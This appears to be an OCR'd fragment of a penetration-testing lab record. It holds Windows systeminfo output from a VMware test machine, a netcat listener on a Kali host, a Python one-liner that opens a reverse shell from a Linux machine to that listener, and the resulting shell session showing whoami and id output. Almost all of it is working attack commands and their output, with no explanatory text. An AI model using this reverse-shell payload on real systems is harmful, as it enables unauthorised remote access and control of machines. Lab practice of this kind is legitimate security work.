 ```
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 165 Stepping 2 GenuineIntel ~2304 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 11/12/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     4,095 MB
Available Physical Memory: 1,814 MB
Virtual Memory: Max Size:  8,189 MB
Virtual Memory: Available: 5,667 MB
Virtual Memory: In Use:    2,522 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\IEWIN7
Hotfix(s):                 208 Hotfix(s) Installed.
                           [01]: KB2670838
                           [02]: KB2830477
                           [03]: KB2592687
                           [206]: KB976932
                           [207]: KB982018
                           [208]: KB4054518
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     192.168.213.254
                                 IP address(es)
                                 [01]: 192.168.213.131
                                 [02]: fe80::5101:6005:31dc:e134
```

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 1234
listening on [any] 1234 ...
```

```
nahida@nahida-virtual-machine:~$ export RHOST="192.168.213.128";export RPORT=1234;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.213.128] from (UNKNOWN) [192.168.213.132] 40800
$ whoami
whoami
nahida
$ id
id
uid=1000(nahida) gid=1000(nahida) groups=1000(nahida),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
```

